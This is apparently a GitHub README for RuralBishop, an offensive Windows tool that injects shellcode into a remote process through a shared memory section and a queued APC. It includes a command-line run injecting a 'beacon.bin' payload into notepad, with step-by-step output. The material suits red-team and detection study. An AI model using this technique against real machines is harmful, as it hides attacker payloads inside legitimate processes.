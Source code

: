 # RuralBishop

RuralBishop is practically a carbon copy of [UrbanBishop](https://github.com/FuzzySecurity/Sharp-Suite/tree/master/UrbanBishop) by b33f, but all [P/Invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) calls have been replaced with [D/Invoke](https://thewover.github.io/Dynamic-Invoke/).

This creates a local RW section in RuralBishop and then maps that section as RX into a remote process. Once the shared section has been established the shellcode is written to the local section which then automatically propagates to the remote process. For execution RuralBishop creates a remote suspended thread (start address is set to `ntdll!RtlExitUserThread`) and queues an APC on that thread.  Once resumed with `NtAlertResumeThread`, the shellcode executes and the thread exits gracefully on completion.

```
C:\> RuralBishop.exe -p C:\Users\Rasta\Desktop\beacon.bin -i 14680
   _O        _____             _
  / //\     | __  |_ _ ___ ___| |
 {     }    |    -| | |  _| .'| |
  \___/     |__|__|___|_| |__,|_|
  (___)
   |_|          _____ _     _
  /   \        | __  |_|___| |_ ___ ___
 (_____)       | __ -| |_ -|   | . | . |
(_______)      |_____|_|___|_|_|___|  _|
/_______\                          |_|
                  ~b33f~  ~rasta~

|--------
| Process    : notepad
| Handle     : 696
| Is x32     : False
| Sc binpath : C:\Users\Rasta\Desktop\beacon.bin
|--------

[>] Creating local section..
    |-> hSection: 0x2B4
    |-> Size: 261120
    |-> pBase: 0xC30000
[>] Map RX section to remote proc..
    |-> pRemoteBase: 0x1E5D86C0000
[>] Write shellcode to local section..
    |-> Size: 261120
[>] Seek export offset..
    |-> pRemoteNtDllBase: 0x7FFC44BA0000
    |-> LdrGetDllHandle OK
    |-> RtlExitUserThread: 0x7FFC44C0A2A0
    |-> Offset: 0x6A2A0
[>] NtCreateThreadEx -> RtlExitUserThread <- Suspended..
    |-> Success
[>] Set APC trigger & resume thread..
    |-> NtQueueApcThread
    |-> NtAlertResumeThread
```

## Convert Shellcode

Follow the instructions to convert your shellcode for this project here: https://github.com/rvrsh3ll/CPLResourceRunner/blob/master/README.md